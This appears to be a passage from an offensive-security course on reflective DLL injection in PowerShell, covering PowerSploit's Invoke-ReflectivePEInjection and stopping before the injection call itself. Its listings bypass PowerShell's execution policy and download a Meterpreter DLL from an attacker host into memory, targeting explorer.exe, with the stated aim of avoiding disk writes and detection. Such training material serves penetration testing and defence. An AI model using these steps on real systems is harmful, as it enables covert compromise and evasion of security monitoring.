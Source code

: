 ### 8.3.1. Reflective DLL Injection in PowerShell

_LoadLibrary_ performs a series of actions, including loading DLL files from disk and setting the correct memory permissions. It also registers the DLL, making it usable from APIs like _GetProcAddress_ and visible to tools like Process Explorer.

Since we do not need to rely on _GetProcAddress_ and want to avoid detection, we are only interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields of the DLL's [Portable Executable](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format) (PE) file format and maps the contents into memory.

In order to implement reflective DLL injection, we could write custom code to essentially recreate and improve upon the functionality of _LoadLibrary_. Since the inner workings of the code and the details of the PE file format are beyond the scope of this Module, we will instead reuse existing code to execute these techniques.

The ultimate goal of this technique is to maintain the essential functionality of _LoadLibrary_ while avoiding writing to disk and avoiding detection by tools such as Process Explorer.

We'll reuse the PowerShell reflective DLL injection code called [Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) developed by the security researchers _Joe Bialek_ and _Matt Graeber_.

This script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes: the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.

Since the complete code is almost 3000 lines, we are not going to cover the code itself, but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use the same Meterpreter DLL that we created earlier. To reflectively load a Meterpreter DLL in **explorer.exe**, we are going to download it using the PowerShell _DownloadData_ method, place it in a byte array, and look up the desired process ID.

In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we'll run the commands shown in Listing 26, which will load the DLL into a byte array and retrieve the explorer process ID.

```
PS C:\Users\offsec> PowerShell -Exec Bypass

PS C:\Users\offsec> $bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')

PS C:\Users\offsec> $procid = (Get-Process -Name explorer).Id
```

> Listing 26 - Downloading DLL and finding Explorer.exe process ID

To use _Invoke-ReflectivePEInjection_, we must first import it from its location in **C:\Tools** with **Import-Module**:

```
PS C:\Users\offsec> Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```
